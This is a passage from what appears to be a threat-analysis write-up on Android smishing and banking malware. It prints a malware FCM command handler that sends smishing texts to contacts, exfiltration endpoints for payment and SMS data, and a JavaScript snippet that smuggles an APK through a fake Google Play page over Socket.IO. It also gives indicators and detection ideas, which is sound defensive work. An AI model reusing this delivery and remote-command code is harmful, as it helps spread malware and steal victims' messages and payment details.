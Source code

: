 ```java
@Override
public void onMessageReceived(RemoteMessage msg){
  String t = msg.getData().get("_type");
  switch (t){
    case "update_texts": applyTemplate(msg.getData().get("template")); break;
    case "smish": sendSmishToContacts(); break;
    // ... more remote actions
  }
}
```

### Hunting patterns and IOCs
- APK contains secondary payload at `assets/app.apk`
- WebView loads payment from `gate.htm` and exfiltrates to `/addup.php`
- SMS exfiltration to `/addsm.php`
- Shortlink-driven config fetch (e.g., `rebrand.ly/*`) returning CSV endpoints
- Apps labelled as generic “Update/Secure Update”
- FCM `data` messages with a `_type` discriminator in untrusted apps

### Detection & defence ideas
- Flag apps that instruct users to disable network during install and then side-load a second APK from `assets/`.
- Alert on the permission tuple: `READ_CONTACTS` + `READ_SMS` + `SEND_SMS` + WebView-based payment flows.
- Egress monitoring for `POST /addup.php|/addsm.php` on non-corporate hosts; block known infrastructure.
- Mobile EDR rules: untrusted app registering for FCM and branching on a `_type` field.

---

## Socket.IO/WebSocket-based APK Smuggling + Fake Google Play Pages

Attackers increasingly replace static APK links with a Socket.IO/WebSocket channel embedded in Google Play–looking lures. This conceals the payload URL, bypasses URL/extension filters, and preserves a realistic install UX.

Typical client flow observed in the wild:

```javascript
// Open Socket.IO channel and request payload
const socket = io("wss://<lure-domain>/ws", { transports: ["websocket"] });
socket.emit("startDownload", { app: "com.example.app" });

// Accumulate binary chunks and drive fake Play progress UI
const chunks = [];
socket.on("chunk", (chunk) => chunks.push(chunk));
socket.on("downloadProgress", (p) => updateProgressBar(p));

// Assemble APK client‑side and trigger browser save dialog
socket.on("downloadComplete", () => {
  const blob = new Blob(chunks, { type: "application/vnd.android.package-archive" });
  const url = URL.createObjectURL(blob);
  const a = document.createElement("a");
  a.href = url; a.download = "app.apk"; a.style.display = "none";
  document.body.appendChild(a); a.click();
});
```
